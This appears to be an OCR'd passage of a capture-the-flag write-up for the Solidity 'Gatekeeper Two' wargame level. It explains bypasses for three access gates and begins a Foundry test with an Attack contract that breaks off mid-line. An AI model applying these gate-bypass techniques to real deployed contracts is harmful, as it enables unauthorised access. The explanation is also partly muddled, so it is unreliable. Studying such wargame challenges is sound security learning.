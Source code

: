 ```solidity
        public 
        gateOne 
        gateTwo 
        gateThree(_gateKey) 
        returns (bool) 
    {
        entrant = tx.origin;
        return true;
    }
}
```
**Vulnerability**: 
1.Gate One: Requires that msg.sender != tx.origin, so it can only be bypassed by making a contract call (from a contract).

2.Gate Two: Uses extcodesize(caller()), which checks that the caller is a contract (not an externally owned account). This can be bypassed by calling the function from a contract constructor, as msg.sender will be the contract itself.

3.Gate Three: Requires that A^B = C where A is the result of hashing the msg.sender. By solving for B, we can craft the correct _gateKey.


### 🛠️  Exploit Contract

Gate One: Bypassed using an external contract call.

Gate Two: Bypassed by deploying the attack contract, which makes the call from the constructor.

Gate Three: The gateKey is crafted using the XOR relationship A^B = C.

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;
import {GatekeeperTwo} from "../src/level15.sol";
import {Test, console} from "forge-std/Test.sol";

contract GatekeeperTwoTest is Test {
    GatekeeperTwo public gatekeeperTwo;
    address public attacker = makeAddr("attacker");
    address public player = makeAddr("player");

    function setUp() public {
        vm.deal(attacker, 100 ether);
        vm.deal(player, 100 ether);
        gatekeeperTwo = new GatekeeperTwo();
    }

    function test_attack() public {
        // first gate is passed by using tx.origin
        // second gate is extcodesize, it is passed only if the msg.sender contract is not deployed (call from constructor)
        // third gate is passed A^B=C, so we find the value of B (gateKey) using XOR logic
        Attack attack = new Attack(gatekeeperTwo); // deploy the contract and call the constructor to solve the second gate
    }
}

contract Attack {
    GatekeeperTwo public gatekeeperTwo;

    constructor(GatekeeperTwo _gatekeeperTwo) {
        gatekeeperTwo = _gatekeeperTwo;
        // msg.sender is the address of the contract (Attack) during construction
        // A^B=C, solve for B (gateKey)
        bytes8 gateKey = bytes8(
```